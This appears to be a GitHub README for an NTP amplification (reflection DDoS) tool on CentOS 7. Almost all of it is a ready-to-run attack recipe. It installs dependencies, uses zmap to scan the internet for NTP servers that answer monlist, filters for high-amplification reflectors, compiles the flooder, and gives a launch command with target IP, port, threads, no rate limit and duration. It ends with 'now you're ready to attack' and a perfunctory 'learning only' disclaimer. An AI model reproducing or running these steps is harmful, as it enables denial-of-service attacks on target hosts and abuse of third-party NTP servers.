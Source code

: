 this is a NTP-AMP script for cyber security learning

operating system：centOS 7

prepare repositorys：Enter the command below

-----------------------------------------------
yum install gcc libcap  libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c

yum -y install zmap
--------------------------------------------------

Upload ntpchecker and ntp_123_monlist.pkt to your server
Enter the command below to start scanning agent list（it wil take a looong time so pls be patient）:

-------------------------------------------------------------------------------------------------
screen zmap -p 123 -M udp --probe-args=file:/root/ntp_123_monlist.pkt -o monlist_fingerprint.txt
---------------------------------------------------------------------------------------------------

give ntpchecker 777 permission：

------------------------------
chmod 777 ntpchecker
-----------------------------

Operational inspection：

---------------------------------------------------------------
screen ./ntpchecker monlist_fingerprint.txt step1.txt 1 0 1
-----------------------------------------------------------------

filter list:

---------------------------------------------------------------------------
awk '$2>419{print $1}' step1.txt | sort -n | uniq | sort -R > ntpamp.txt
-----------------------------------------------------------------------------

Compilation and attack:

------------------------------------------------------------------------------
yum install gcc libcap libpcap libpcap-devel 

gcc -lpthread ntp.c -lpcap -o ntp 
 -----------------------------------------------------------------------------------

ATTACK:

./ntp ip port list(ntpamp.txt) thread ppslimit(-1=no limit) attacktime(second)

example: ./ntp 127.0.0.1 80 ntpamp.list 1500 -1 600
 
 ok now you're ready to attack
 
 this script is just for cyber attack learning and pls don't be evil
 
